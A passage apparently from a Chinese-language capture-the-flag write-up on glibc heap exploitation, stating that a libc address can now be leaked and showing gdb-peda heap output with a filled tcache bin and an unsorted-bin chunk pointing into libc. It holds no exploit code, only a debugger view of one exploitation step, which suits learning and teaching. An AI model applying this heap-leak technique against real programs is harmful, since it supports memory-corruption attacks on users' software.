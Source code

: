 之后，我们就可以 leak libc 了。

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x555555559af0 (size : 0x20510)
       last_remainder: 0x0 (size : 0x0)
            unsortbin: 0x555555559250 (size : 0x110)
(0x110)   tcache_entry[15]: 0x5555555599f0 --> 0x5555555598e0 --> 0x5555555597d0 --> 0x5555555596c0 --> 0x5555555595b0 --> 0x5555555594a0 --> 0x555555559390
gdb-peda$ parseheap
addr                prev                size                 status              fd                bk
0x555555559000      0x0                 0x250                Used                None              None
0x555555559250      0x0                 0x110                Freed     0x7ffff7fc0ca0    0x7ffff7fc0ca0
0x555555559360      0x110               0x20                 Used                None              None
0x555555559380      0x0                 0x110                Used                None              None
0x555555559490      0x0                 0x110                Used                None              None
0x5555555595a0      0x0                 0x110                Used                None              None
0x5555555596b0      0x0                 0x110                Used                None              None
```

